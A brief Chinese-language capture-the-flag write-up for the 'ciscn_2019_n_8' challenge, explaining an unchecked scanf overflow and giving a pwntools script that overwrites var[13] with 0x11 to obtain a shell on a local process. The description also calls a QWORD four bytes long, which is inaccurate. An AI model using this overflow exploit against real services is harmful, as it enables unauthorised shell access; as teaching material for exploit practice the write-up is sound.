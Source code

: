 ![image.png](img/59e7c6a5c2c17a60f8514d4cdcba2fb1.png)

使用scanf读入字符串到变量`var`，存在漏洞，同时程序会将var的地址转换为一个(_QWORD)类型指针（长度为四字节），并判断`var[13]`是否为`0x11`，若是则返回一个shell

故考虑直接输入将`var[13]`覆写为`0x11`即可getshell

构造exp如下：

```
from pwn import *

payload = b'A'*13*4 + p32(0x11)

p = process('./ciscn_2019_n_8') 
p.recv()
p.sendline(payload)
p.interactive() 
```
